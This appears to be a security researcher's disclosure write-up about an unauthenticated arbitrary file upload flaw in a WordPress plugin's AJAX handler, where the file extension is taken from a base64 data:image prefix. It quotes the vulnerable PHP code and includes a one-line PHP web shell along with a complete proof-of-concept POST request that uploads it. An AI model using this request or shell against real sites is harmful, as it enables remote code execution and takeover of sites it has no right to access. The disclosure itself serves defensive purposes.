 
While analyzing the plugin, I discovered a critical vulnerability that allows arbitrary file uploads, including `.php` files, by abusing a base64-encoded `data:image/*` payload. The root of the issue lies in the `store_final_product_image()` function, located in `staggs-functions.php`.

This function is triggered through the `staggs_get_configuration_form_urls_ajax()` AJAX handler, which is registered for both authenticated and unauthenticated users via the `wp_ajax_` and `wp_ajax_nopriv_` hooks. This means the vulnerability can be exploited remotely without authentication.

The `staggs_get_configuration_form_urls_ajax()` function handles various POST parameters, including `image_id` and `image`. When an image is provided, it directly calls `store_final_product_image()`:

```php
if ( isset( $_POST['image_id'] ) ) {
    $image_name = staggs_sanitize_title( get_the_title( $_POST['image_id'] ) );
    $image_url  = store_final_product_image( $image_name, $_POST['image'], $_POST['values'], true );
    $response['image_url'] = $image_url;
}
```

Inside `store_final_product_image()`, the image data is expected to be in base64 format with a `data:image/...;base64,...` prefix. The MIME type is extracted via regex and used directly as the file extension:

```php
if ( preg_match( '/^data:image\/(.*);base64,/', $data, $type ) ) {
    $data = substr( $data, strpos($data, ',') + 1 );
    $type = strtolower( $type[1] ); // ← extension is fully user-controlled
    $data = base64_decode($data);
    ...
    $filename = $imagename . '.' . $type;
    file_put_contents( $save_path . "/{$filename}", $data );
}
```

There is no validation of the actual file type, no extension whitelist, and the decoded data is blindly written to disk. This makes it possible to send a payload like `data:image//shell.php;base64,...` and have the file saved directly to `/wp-content/uploads/staggs/shell.php`.

To demonstrate the issue, I created a simple PHP backdoor:

```php
<?php system($_GET['cmd']); ?>
```

This code, once base64-encoded, was used in the following HTTP POST request to upload the file via the vulnerable AJAX endpoint:

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded

action=staggs_get_configuration_form_urls&contents={}&image_id=test&image=data:image//test.php;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8%2bIA%3d%3d
```
